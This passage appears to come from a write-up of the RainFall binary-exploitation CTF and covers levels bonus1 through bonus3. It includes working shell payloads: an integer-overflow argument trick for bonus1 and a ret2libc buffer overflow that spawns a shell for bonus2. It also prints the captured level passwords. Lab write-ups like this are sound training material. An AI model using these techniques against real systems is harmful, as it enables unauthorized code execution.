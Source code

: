 In order to make all these checks return true, we must do some arithmetic to find the correct value to pass the first checks, and then the correct padding to make the last test return true too:

```shell-session
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c "print '\x90' * 40 + '\x46\x4c\x4f\x57'")
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

# bonus2
## Type of exploit

ret2libc + Buffer Overflow with vulnerable function `strcat`

## Details of bonus2

Program looks at an env variable `LANG` to decide which string to output:

- `LANG=default` -> `Hello `
- `LANG=fi`      -> `Hyvää päivää `
- `LANG=nl`      -> `Goedemiddag! `

`nl` and `fi` have bigger greeting messages and are therefor usefull to overflow the buffer used internally.

We see two calls to `strncpy`, one with `40` and the second with `32` as copy-length parameter.

Using pattern generators, we notice that if the first argument is 40 and second is `> 14` (offset is 18), the EIP is overwritten, so after gathering the address of `system()` (0xb7e6b060) and `/bin/sh` (0xb7f8cc58). we can construct a payload to return to call a shell:

```shell-session
bonus2@RainFall:~$ LANG=fi ./bonus2 $(python -c "print '\x90' * 40") $(python -c "print '\x90' * 18 + '\x60\xb0\xe6\xb7'+'BYTE'+'\x58\xcc\xf8\xb7'")
Hyvää päivää `�YTEX�
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

# bonus3


## Type of exploit

Reverse engineering

## Details of bonus3

Here we can clearly see there is a comparison between a `buffer` and `argv[1]` with `strcmp()`.

Furthermore, we have control over what is both in the `buffer` and `argv[1]` because of the call to `atoi()` that sets a value at an index we give it.
